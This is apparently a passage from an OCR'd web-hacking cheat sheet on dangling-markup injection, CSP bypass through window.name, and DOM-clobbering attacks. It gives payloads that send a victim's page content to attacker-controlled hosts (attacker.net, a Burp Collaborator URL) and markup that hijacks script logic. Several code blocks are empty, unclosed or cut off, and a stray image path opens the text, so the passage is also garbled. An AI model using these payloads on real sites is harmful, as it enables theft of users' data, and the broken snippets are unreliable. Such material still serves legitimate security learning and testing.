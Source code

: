 ```

A way to exfiltrate the content of the web page from the point of injection to the bottom to an attacker controlled site will be injecting this:

```html

```
```
### Bypassing CSP with user interaction

From this [[https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup|portswiggers research]] you can learn that even from the **most CSP restricted** environments you can still **exfiltrate data** with some **user interaction**. In this occasion we are going to use the payload:

```html
[[http://attacker.net/payload.html|You must click me]]
<base target='
```
```
Note that you will ask the **victim** to **click on a link** that will **redirect** him to **payload** controlled by you. Also note that the **`target`** attribute inside the **`base`** tag will contain **HTML content** until the next single quote.\
This will make that the **value** of **`window.name`** if the link is clicked is going to be all that **HTML content**. Therefore, as you **control the page** where the victim is accessing by clicking the link, you can access that **`window.name`** and **exfiltrate** that data:

```html
<script>
  if(window.name) {
      new Image().src='//your-collaborator-id.burpcollaborator.net?'+encodeURIComponent(window.name);
</script>
```
```
### Misleading script workflow 1 - HTML namespace attack

Insert a new tag with and id inside the HTML that will overwrite the next one and with a value that will affect the flow of a script. In this example you are selecting with whom a information is going to be shared:

```html
 ← Injected markup ...
Share this status update with: ← Legitimate optional element of a dialog

... function submit_status_update() { ... request.share_with =
document.getElementById('share_with').value; ... }
```
```
### Misleading script workflow 2 - Script namespace attack

Create variables inside javascript namespace by inserting HTML tags. Then, this variable will affect the flow of the application:

```html
![]() ← Injected markup ... // Legitimate application code
follows function retrieve_acls() { ... if (response.access_mode == AM_PUBLIC) ←
The subsequent assignment fails in IE is_public = true; else is_public = false;
} function submit_new_acls() { ... if (is_public) request.access_mode =
AM_PUBLIC; ← Condition always evaluates to true ... }
```
```
### Abuse of JSONP

If you find a JSONP interface you could be able to call an arbitrary function with arbitrary data:

```html
```